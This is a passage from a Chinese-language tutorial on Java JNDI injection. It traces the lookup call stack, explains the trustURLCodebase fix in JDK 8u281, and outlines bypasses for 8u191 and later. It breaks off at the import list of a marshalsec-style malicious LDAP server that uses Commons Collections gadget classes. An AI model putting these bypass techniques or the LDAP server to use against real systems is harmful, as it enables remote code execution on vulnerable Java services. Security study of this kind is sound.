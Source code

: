 ### 简单分析

```JAVA
getObjectFactoryFromReference:142, NamingManager (javax.naming.spi)
getObjectInstance:189, DirectoryManager (javax.naming.spi)
c_lookup:1085, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
```

最后仍然是调⽤了 NamingManager#getObjectFactoryFromReference ⽅法。

### 修复

8u281版本

同上，跟到NamingManager##getObjectFactoryFromReference 方法的loadClass进去之后，会判断trustURLCodebase,长按ctrl+左键

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218230949.png)

会跳到 `VersionHelper12`中，这个类默认将其定位 false

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20211218231306.png)

JNDI注入 8u191↑
-------------

高版本的绕过思路有两种：

1. LDAP Server直接返回恶意序列化数据，但是需要目标环境存在Gadget依赖
2. 使用本地的Factory绕过(主要利用了`org.apache.naming.factory.BeanFactory`类)

### 直接返回序列化数据(LDAP)

LDAP Server可以直接改参考marshalsec，修改里面的内容

```java
package demo2;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.HashMap;
import java.util.Map;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import demo2.utils.CommonUtil;
import demo2.utils.Utils;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.net.ServerSocketFactory;
```